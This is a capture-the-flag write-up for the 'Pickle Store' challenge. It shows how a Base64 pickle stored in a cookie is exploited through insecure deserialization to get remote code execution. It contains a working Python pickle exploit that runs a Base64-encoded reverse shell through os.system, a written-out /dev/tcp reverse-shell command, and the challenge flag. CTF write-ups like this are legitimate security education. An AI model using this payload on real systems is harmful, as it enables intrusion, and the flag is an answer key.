

# Pickle Store
> New pickles just dropped! Check out the store.

> https://pickles-web.challenges.ctf.ritsec.club/

## About the Challenge
We have been given a website that has a functionality to order a pickle


## How to Solve?
If we see the request, there is a cookie called `order` and the value is Base64 encoded message. When I first saw the cookie, the first thing that comes to my mind was `Pickle Insecure Deserialization to RCE`


And then I tried to do some research about that vulnerability and I got this script to exploit that vulnerability

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('echo "BASE64_REVERSE_SHELL" | base64 -d | bash')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Why should I encode the command first using Base64 instead of directly using `/bin/sh -i >& /dev/tcp/IP/PORT 0>&1`? That's because I can't do a reverse shell if I'm using that command.

Run the script and then change the value of the cookie with the output of the script. And then to obtain the flag, try to read `/flag` file



```
RS{TH3_L345T_53CUR3_P1CKL3}
```